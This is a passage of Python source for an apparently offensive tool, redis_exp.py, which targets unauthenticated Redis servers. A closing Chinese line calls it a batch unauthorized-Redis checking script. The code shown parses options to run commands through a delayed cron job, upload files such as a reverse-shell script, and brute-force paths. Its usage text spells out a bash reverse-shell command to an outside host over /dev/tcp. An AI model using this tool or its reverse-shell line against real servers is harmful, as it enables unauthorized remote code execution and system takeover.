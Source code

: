 ```
def get_paras():
    usage = '''python redis_exp.py --host *.*.*.* [options]
    command execute:python redis_exp.py --host *.*.*.* -c "bash -i >& /dev/tcp/10.0.0.1/8080 0>&1"
    file upload:python redis_exp.py --host *.*.*.* -l /data/reverse.sh -r /tmp/r.sh
    path brute fource:python redis_exp.py --host *.*.*.* -f /data/path.txt'''
    parser = OptionParser(usage)
    parser.add_option('--host',dest='host',help='the redis ip')
    parser.add_option('-p',dest="port",type='int',default=6379,help="the redis port,default is 6379")
    parser.add_option('-f',dest="file",help="file path to brute fource")
    parser.add_option('-l',dest="l_file",help="local file to upload")
    parser.add_option('-r',dest="r_file",help="remote path to store file")
    parser.add_option('-c',dest="command",help="the command to execute")
    parser.add_option('-t', dest="time_delay",type='int',default=2,help="the time between crontad created and command execute,default 2mins")
    (options, args) = parser.parse_args()


    arg_host = options.host
    arg_port = int(options.port)
    if arg_host == None or arg_port == None:
        print "\033[31;3m [ERROR] %s \033[0m" % 'host or port error'
        print usage
        sys.exit()
    arg_command = options.command
    arg_time_delay = options.time_delay
    arg_l_file = options.l_file
    arg_r_file = options.r_file
    arg_dirs_file = options.file
    if arg_command == None and (arg_l_file == None or arg_r_file==None) and arg_dirs_file == None:
        print "\033[31;3m [ERROR] %s \033[0m" % 'need options'
        print usage
        sys.exit()
    paras = {'host':arg_host,
             'port':arg_port,
             'command':arg_command,
             'time_delay':arg_time_delay,
             'l_file':arg_l_file,
             'r_file':arg_r_file,
             'dirs_file':arg_dirs_file}
    return paras


if '__main__' == __name__:
    paras = get_paras()
    host = paras['host']
    port = paras['port']
    command = paras['command']
    time_delay = paras['time_delay']
    l_file = paras['l_file']
    r_file = paras['r_file']
    dirs_file = paras['dirs_file']
    r = REDIS_EXP(host,port)
    if command != None:
        r.execute(command,time_delay)
    elif dirs_file != None:
        r.broute_dir(dirs_file)
    else:
        r.upload_file(l_file,r_file)
```
# 批量检测未授权redis脚本